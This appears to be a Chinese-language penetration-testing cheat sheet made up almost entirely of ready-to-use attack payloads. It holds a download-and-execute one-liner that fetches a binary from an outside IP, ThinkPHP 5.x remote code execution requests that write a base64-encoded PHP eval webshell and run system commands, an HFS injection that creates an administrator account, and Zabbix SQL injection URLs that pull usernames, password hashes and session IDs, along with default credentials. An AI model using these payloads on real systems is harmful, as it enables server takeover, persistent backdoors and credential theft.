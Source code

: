 linux shell 下载执行：

    wget  http://100.100.100.0/aelf -O /tmp/a && chmod +x /tmp/a && setsid /tmp/a

thinkphp5 测漏洞:

    https://www.waitalone.cn/thinkphp-getshell.html
    绕过disable_functions https://www.cnblogs.com/r00tuser/p/12636479.html
    /index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=php://filter/write=convert.base64-decode/resource=/home/wwwroot/example/s.php&vars[1][]=PD9waHAKQGV2YWwoJF9HRVRbJ3IwMCddKTsKcmV0dXJuIFsnYXBwX2luaXQnICAgICA9PiBbXSwnYXBwX2JlZ2luJyAgICA9PiBbXSwnbW9kdWxlX2luaXQnICA9PiBbXSwnYWN0aW9uX2JlZ2luJyA9PiBbXSwndmlld19maWx0ZXInICA9PiBbXSwnbG9nX3dyaXRlJyAgICA9PiBbXSwnYXBwX2VuZCcgICAgICA9PiBbXTsKPz4=

    /?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1
    /?s=index/\think\Request/input&filter=phpinfo&data=-1
    
    无写权限执行任意代码：
    s=index/\think\app/invokefunction&function=assert&vars[0]=eval(($_POST['a']))
    s=index/\think\app/invokefunction&function=assert&vars[0]=eval(base)
    5.0.x版本

    s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
    
    s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id

    5.1.x版本

    s=index/\think\Request/input&filter=phpinfo&data=1 s=index/\think\Request/input&filter=system&data=id
    s=index/\think\template\driver\file/write&cacheFile=shell.php&content=%3C?php%20phpinfo();?%3E                             s=index/\think\view\driver\Php/display&content=%3C?php%20phpinfo();?%3E                                                   s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1                         s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id

hfs 命令执行漏洞:

    ?search==%00{.exec|cmd.exe /c net user test1234 1234 /add.}    
    ?search==%00{.exec|cmd.exe /c net localgroup administrators test1234 /add.}

zabbix sql注入:


    /jsrpc.phpsid=0bcd4ade648214dc&type=9&method=screen.get&timestamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=history.php&profileIdx=web.item.graph&profileIdx2=23297&updateProfile=true&screenitemid=&period=3600&stime=20160817050632&resourcetype=17&itemids%5B23297%5D=23297&action=showlatest&filter=&filter_task=&mark_color=1
    检查 error in your SQL syntax
    jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&timestamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=history.php&profileIdx=web.item.graph&profileIdx2=profileldx2=(select%201%20from%20(select%20count(*),concat((select(select%20concat(cast(concat(0x7e,name,0x7e)%20as%20char),0x7e))%20from%20zabbix.users%20LIMIT%200,1),floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)a)&updateProfile=true&screenitemid=&period=3600&stime=20160817050632&resourcetype
    获取name
    jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&timestamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=history.php&profileIdx=web.item.graph&profileIdx2=profileldx2=(select%201%20from%20(select%20count(*),concat((select(select%20concat(cast(concat(0x7e,passwd,0x7e)%20as%20char),0x7e))%20from%20zabbix.users%20LIMIT%200,1),floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)a)&updateProfile=true&screenitemid=&period=3600&stime=20160817050632&resourcetype=17
    获取密码
    /zabbix/jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&timestamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=history.php&profileIdx=web.item.graph&profileIdx2=profileldx2=(select%201%20from%20(select%20count(*),concat((select(select%20concat(cast(concat(0x7e,sessionid,0x7e)%20as%20char),0x7e))%20from%20zabbix.sessions%20LIMIT%200,1),floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)a)&updateProfile=true&screenitemid=&period=3600&stime=20160817050632&resourcetype=17
    获取sessionid
    zabbix 默认账户Admin密码zabbix
